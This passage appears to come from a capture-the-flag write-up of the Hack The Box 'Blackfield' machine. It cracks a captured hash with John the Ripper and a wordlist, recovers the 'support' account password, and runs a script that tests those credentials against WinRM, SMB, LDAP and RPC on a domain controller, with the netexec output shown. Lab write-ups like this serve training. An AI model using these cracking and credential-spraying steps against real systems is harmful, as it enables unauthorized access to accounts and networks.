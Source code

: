 lets crack it:
```bash
john hash_blackfield_support.txt --wordlist=rockyou.txt
```
the retrieved password is
```bash
#00^BlackKnight
```
so the creds are
```bash
support
#00^BlackKnight
```

Lets now use my script to bulk check the services to which we can login with those creds:
[ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)
```bash
./auto_netexec_bulk_creds_checker.sh blackfield.htb 'support' '#00^BlackKnight'
```

```bash
[*] Checking if winrm port 5985 is open on blackfield.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.164.18   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.164.18   5985   DC01             [-] BLACKFIELD.local\\support:#00^BlackKnight

[*] Checking if smb port 445 is open on blackfield.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.164.18   445    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if ldap port 389 is open on blackfield.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
LDAP        10.129.164.18   389    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if rdp port 3389 is open on blackfield.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on blackfield.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.164.18   135    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
RPC         10.129.164.18   135    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if nfs port 2049 is open on blackfield.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on blackfield.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on blackfield.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on blackfield.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on blackfield.htb...
[-] Skipping mssql — port 1433 is closed
```
interesting, according the the above output, with those creds, we can login to `RPC` , `SMB` and `LDAP`.